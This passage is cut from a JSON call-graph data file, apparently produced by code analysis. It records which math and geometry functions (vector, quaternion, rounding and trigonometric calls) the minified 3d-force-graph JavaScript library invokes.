"calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAxisAngleFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAxisAngleFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "roundToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "manhattanLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerpVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addLayerUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearLayerUpdates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slerpFlat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyQuaternionsFlat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromUnitVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "angleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateTowards"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "angleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "identity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "conjugate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "conjugate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyQuaternions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyQuaternions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyQuaternions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slerpQuaternions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 